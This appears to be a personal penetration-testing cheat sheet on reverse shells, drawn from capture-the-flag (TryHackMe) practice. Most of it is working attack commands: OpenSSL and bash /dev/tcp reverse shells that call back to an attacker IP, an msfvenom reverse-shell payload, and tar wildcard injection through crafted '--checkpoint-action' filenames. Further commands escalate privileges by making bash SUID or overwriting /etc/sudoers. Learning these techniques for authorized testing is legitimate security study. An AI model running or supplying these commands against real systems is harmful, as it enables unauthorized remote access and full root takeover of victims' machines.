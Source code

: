 ******************* Look at notes THM room Game Zone README.md for various techniques.

# Powershell
##### [Powershell HTTP/S Reverse Shell](https://github.com/3v4Si0N/HTTP-revshell)

# PHP
##### [Pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell)

# OpenSSL Reverse Shell
[Generate OpenSSL Certificate](../../SSL/OpenSSL/README.md#Generate-SSL-Certificate)
[Start OpenSSL Listener](../../SSL/OpenSSL/README.md#Start-OpenSSL-Listener)
##### From Target, create named pipe and OpenSSL client to connect to Attack Machine.
```bash
# On Target
mkfifo /tmp/x; /bin/sh -i < /tmp/x 2>&1 | openssl s_client -quiet -connect <Attack IP ADdress>:443 > /tmp/x; rm /tmp/x
```

# ICMP Reverse Shell with icmpsh
##### Disable ICMP replies by the OS
```bash
sysctl -w net.ipv4.icmp_echo_ignore_all=1
```
## ICMP Reverse Shell References
[Github icmpsh](https://github.com/bdamele/icmpsh)

[Pentestlab Blog](https://pentestlab.blog/tag/icmpsh/)

[Security Online](https://securityonline.info/icmpsh-simple-reverse-icmp-shell/)

# CronJobs - File Permissions 
```bash
cat /etc/crontab
# IF CronJobs runs a <file>.sh script, edit <file>.sh to establish a reverse shell.
```

# CronJobs - Wildcard
```bash
cat /etc/crontab
# Find CronJobs using wildcards.
# Search GTFObins for CronJob command.

# Find out the time to see when the next job will run.
date

### NOTE - I had problems making the scripts executable and callng them.
### Using exec=sh <script>.sh worked, when the others did not.
### See notes from THM Skynet room.
### I was unable to establish a reverse shell.
### Scripts that I chmod +x did not execute.
### Calling he scripts with sh worked.
echo "" > "--checkpoint-action=exec=sh <script>.sh"

# Example using tar.
# Create reverse shell binary with msfvenom.
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<local IP> LPORT=<port num> -f elf -o shell.elf
# Copy shell.elf to server.
# Make shell.elf executable, on server.
chmod +x /home/user/shell.elf
# Start listener.
nc -nvlp <port num>
# Create these two files in /home/user:
touch /home/user/--checkpoint=1
touch /home/user/--checkpoint-action=exec=shell.elf
# These filenames will be read as tar arguments, causing tar to execute shell.elf.

## ALTERNATIVES
# Use a bash shell.
echo "bash -i >& /dev/tcp/10.13.25.242/9999 0>&1" > shell.sh
chmod +x shell.sh
touch /home/user/--checkpoint=1
touch /home/user/--checkpoint-action=exec=shell.sh
# Make /bin/bash a SUID.
printf '#!/bin/bash\nchmod +s /bin/bash' > shell.sh
chmod +x shell.sh
touch /home/user/--checkpoint=1
touch /home/user/--checkpoint-action=exec=shell.sh
# Copy /bin/bash to a /tmp and make SUID.
printf '#!/bin/bash\ncp /bin/bash /tmp/newbinbash && chmod +s /tmp/newbinbash' > newbinbash.sh
chmod +x newbinbash.sh
touch /var/www/html/--checkpoint=1
touch /var/www/html/--checkpoint-action=exec=newbinbash.sh
# Make the current user a sudoer.
echo 'echo "www-data ALL=(root) NOPASSWD: ALL" > /etc/sudoers' > privesc.sh
chmod +x privesc.sh
touch /home/user/--checkpoint=1
touch /home/user/--checkpoint-action=exec=privesc.sh
```

### CronJobs - Wildcard References
[Exploiting Wildcard for Privilege Escalation](https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/)

# Stabalize Shell
```bash
bash
rlwrap nc -lvnp $port
which python python2 python3
/usr/bin/python -c "import pty; pty.spawn('/bin/bash')"; #spawn a python psuedo-shell
CTRL+Z # to background shell
echo $TERM
stty raw -echo # Send control characters to the shell.
stty size # Get terminal window size 48 / 102
fg # foreground shell
export SHELL=bash
stty rows $x columns $y #Set remote shell to x number of rows & y columns
export TERM=xterm-256color #allows you to clear console, and have color output
```
# Stabalizing Shell References
##### [Spawning a TTY Shell](https://netsec.ws/?p=337)
##### [Upgrade a Dumb Shell to a Fully Interactive Shell for More Flexibility ](https://null-byte.wonderhowto.com/how-to/upgrade-dumb-shell-fully-interactive-shell-for-more-flexibility-0197224/)
##### [Upgrading Simple Shells to Fully Interactive TTYs](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)
##### [Upgrade a Linux reverse shell to a fully usable TTY shell](https://zweilosec.github.io/posts/upgrade-linux-shell/)
    Note: The methods above will not work in every situation. For example, I have regularly run into a problem on my Kali machine where attempting to use stty raw -echo while using zsh as my shell will cause the entire terminal to become unusable. I have gotten around this issue by switching to bash before I start any netcat listener that I will be using to catch a shell.

# [WordPress Reverse Shell](https://www.hackingarticles.in/wordpress-reverse-shell/)

# Cheatsheets
[HighOn.Coffee](https://highon.coffee/blog/reverse-shell-cheat-sheet/)

[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

[Pentestmonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

[Reverse Shell Generator](https://www.revshells.com/)

# References
[Staged vs Stageless Handlers](https://buffered.io/posts/staged-vs-stageless-handlers/)

[Upgrade a linux reverse shell to a fully usable TTY shell](https://zweilosec.github.io/posts/upgrade-linux-shell/)

[WordPress: Reverse Shell](https://www.hackingarticles.in/wordpress-reverse-shell/)